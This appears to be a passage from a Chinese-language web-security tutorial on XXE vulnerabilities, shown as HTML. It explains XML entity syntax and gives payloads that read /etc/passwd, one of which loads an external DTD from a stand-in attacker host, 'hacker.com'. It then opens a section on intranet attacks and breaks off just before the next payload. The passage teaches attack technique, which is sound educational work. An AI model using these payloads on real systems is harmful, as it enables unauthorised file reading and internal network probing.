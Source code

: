 <pre class="lang-xml" data-nodeid="1054"><code data-language="xml">  <span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-meta-keyword">foo</span> [
    <span class="hljs-meta">&lt;!ENTITY <span class="hljs-meta-keyword">test</span> <span class="hljs-meta-string">"john"</span>&gt;</span>
  ]&gt;</span>
  <span class="hljs-tag">&lt;<span class="hljs-name">root</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">name</span>&gt;</span><span class="hljs-symbol">&amp;test;</span><span class="hljs-tag">&lt;/<span class="hljs-name">name</span>&gt;</span>
  <span class="hljs-tag">&lt;/<span class="hljs-name">root</span>
</span></code></pre>
<ul data-nodeid="1055">
<li data-nodeid="1056">
<p data-nodeid="1057"><strong data-nodeid="1162">外部实体引用</strong></p>
</li>
</ul>
<p data-nodeid="1058">XXE 的产生正是外部实体引用的结果，可分为普通实体和参数实体。</p>
<p data-nodeid="1059"><strong data-nodeid="1168">（1）普通实体</strong>声明格式如下：</p>
<pre class="lang-java" data-nodeid="1060"><code data-language="java">&lt;!ENTITY 实体名 SYSTEM <span class="hljs-string">"URI"</span>&gt;
或者
&lt;!ENTITY 实体名 PUBLIC <span class="hljs-string">"public_ID"</span> <span class="hljs-string">"URI"</span>&gt;
</code></pre>
<p data-nodeid="1061">举个例子：</p>
<pre class="lang-java" data-nodeid="1062"><code data-language="java">&lt;!DOCTYPE foo [&lt;!ELEMENT foo ANY&gt;
    &lt;!ENTITY xxe SYSTEM "file:///etc/passwd"&gt;
]&gt;
&lt;foo&gt;&amp;xxe;&lt;/foo&gt;
</code></pre>
<p data-nodeid="1063">声明实体 xxe，用于读取 /etc/passwd 文件，然后通过 &amp;xxe; 来引用执行。</p>
<p data-nodeid="1064"><strong data-nodeid="1177">（2）参数实体</strong>声明主要用于后续使用，与普通实体不同的是，它中间有百分号字符（%），其声明格式如下：</p>
<pre class="lang-java" data-nodeid="1065"><code data-language="java">&lt;!ENTITY % 实体名称 <span class="hljs-string">"实体的值"</span>&gt;
或者
&lt;!ENTITY % 实体名称 SYSTEM <span class="hljs-string">"URI"</span>&gt;
</code></pre>
<p data-nodeid="1066">举个例子：</p>
<pre class="lang-xml" data-nodeid="1067"><code data-language="xml"><span class="hljs-meta">&lt;!DOCTYPE <span class="hljs-meta-keyword">foo</span> [
  	<span class="hljs-meta">&lt;!ENTITY  % <span class="hljs-meta-keyword">xxe</span> <span class="hljs-meta-keyword">SYSTEM</span> <span class="hljs-meta-string">"http://hacker.com/evil.dtd"</span> &gt;</span>
  	%xxe;
]&gt;</span>
<span class="hljs-tag">&lt;<span class="hljs-name">root</span>&gt;</span>
  	<span class="hljs-tag">&lt;<span class="hljs-name">name</span>&gt;</span><span class="hljs-symbol">&amp;evil;</span><span class="hljs-tag">&lt;/<span class="hljs-name">name</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">root</span>&gt;</span>
</code></pre>
<p data-nodeid="1068">xxe.dtd 内容如下：</p>
<pre class="lang-xml" data-nodeid="1069"><code data-language="xml"><span class="hljs-meta">&lt;!ENTITY <span class="hljs-meta-keyword">evil</span> <span class="hljs-meta-keyword">SYSTEM</span> <span class="hljs-meta-string">"file:///etc/passwd"</span>&gt;</span>
</code></pre>
<p data-nodeid="1070">上面先声明 xxe 参数实体，引入外部实体 "http://hacker.com/evil.dtd"，里面声明了一个叫 evil 的实体，用于读取 /etc/passwd 文件，最后在通过 &amp;evil; 来引用执行。<br>
在不同的语言中其支持协议还不一样，需要根据业务场景来实测，常见的协议有 file、http、ftp、https、except 等等。</p>
<h3 data-nodeid="1071">危害：XXE 的常见攻击手段</h3>
<p data-nodeid="1072">下面介绍一些 XXE 漏洞的常见利用方法，并提供一些 payload 测试用例，测试仍以 Pikachu XXE 题目作为演示。</p>
<h4 data-nodeid="1073">1.内网攻击</h4>
<p data-nodeid="1074">XXE 支持 http 等 URL，所以同样可以产生与 SSRF 一样效果，对内网进行指纹探测、端口扫描、漏洞攻击等行为。</p>
<p data-nodeid="1075">比如以下的 payload：</p>